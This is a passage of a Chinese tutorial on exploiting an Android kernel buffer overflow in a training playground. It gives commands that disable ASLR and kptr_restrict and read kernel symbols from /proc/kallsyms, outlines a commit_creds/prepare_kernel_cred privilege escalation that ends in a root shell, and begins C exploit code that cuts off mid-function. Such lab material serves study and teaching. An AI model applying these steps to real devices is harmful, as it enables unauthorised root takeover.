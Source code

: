 # 溢出准备
首先关闭ASLR

```
echo 0 > proc/sys/kernel/randomize_va_space
```

然后关闭kptr_restrict

```
echo 0 > /proc/sys/kernel/kptr_restrict
```

否则将无法获取内核符号地址。
实际上，在更后期的安卓内核版本里，是根本无法获取内核符号的，这使得漏洞利用变得更难了。
![](2020~07~22~安卓内核pwn之缓冲区溢出/4.jpg)
然后我们就可以找commit_creds 和 prepare_kernel_cred的地址了，通过调用这两个程序来进行提权。
命令是

```
cat /proc/kallsyms | grep prepare_kernel_cred  
cat /proc/kallsyms | grep commit_creds 
```

具体的思路就是
1. 调用 commit_creds（prepare_kernel_cred（0）） 提升权限
2. 调用 mov r3, ＃0x40000010; MSR CPSR_c, R3;设置 cpsr 寄存器， 使cpu进入用户模式
3. 然后执行 execl("/system/bin/sh","sh"，NULL);起一个 root 权限的 shell

我们就可以抄playground里给我们的solution了

# 利用代码

``` c
#include <stdio.h>
#include <string.h>

#include <unistd.h>
#include <fcntl.h>

#include <sys/mman.h>

#define MAX             64

void * prepare_kernel_cred;
void * commit_creds;
void * proc_file_write;


void *
get_ksymbol(char *name)
{
        FILE *f = fopen("/proc/kallsyms", "r");
        char c, sym[512];
        void *addr;
        int ret;

        while (fscanf(f, "%p %c %s\n", &addr, &c, sym) > 0) {
                if (!strcmp(sym, name))
                        return addr;
```